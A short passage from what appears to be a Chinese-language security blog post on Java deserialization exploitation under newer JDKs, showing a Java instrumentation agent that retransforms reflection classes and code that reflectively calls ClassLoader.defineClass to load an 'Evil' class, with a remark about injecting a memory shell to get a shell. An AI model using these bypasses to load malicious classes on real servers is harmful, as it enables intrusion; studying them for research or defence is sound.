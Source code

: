 

```java
public class MyAgent {

    public static void premain(String agentArgs, Instrumentation inst) throws UnmodifiableClassException {

        inst.addTransformer(new MyClassFileTransformer(),true);
        Class[] allLoadedClasses = inst.getAllLoadedClasses();

        for (Class loadedClass : allLoadedClasses) {
            if("java.lang.reflect.Field".equals(loadedClass.getName())){
                //重新transform
                inst.retransformClasses(loadedClass);
            }
        }
    }
}
```



## 高版本JDK反射类加载

由于高版本的module机制，

无法反射调用 TemplatesImpl 的get方法，POJONode的toString -> 到任意get 的这种方法也没有办法用。

但是我们可以修改Method 的 setAccessible也修改一下我们就可以了。但是需要让服务端加载这个permain时不太现实的。

但是我们可以通过agentmain进行修改，但是有那种功夫，我们还不如注入内存马。直接拿shell。



把上面的那个agent 的 Filed改成Method就可以了。
这样的这个恶意类在jdk17的环境下依旧是可以被加载的。

```java
byte[] bytes = Files.readAllBytes(Paths.get("target/classes/Evil.class"));

Method method = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
method.setAccessible(true);
((Class)method.invoke(ClassLoader.getSystemClassLoader(), "Evil", bytes, 0, bytes.length)).newInstance();

```








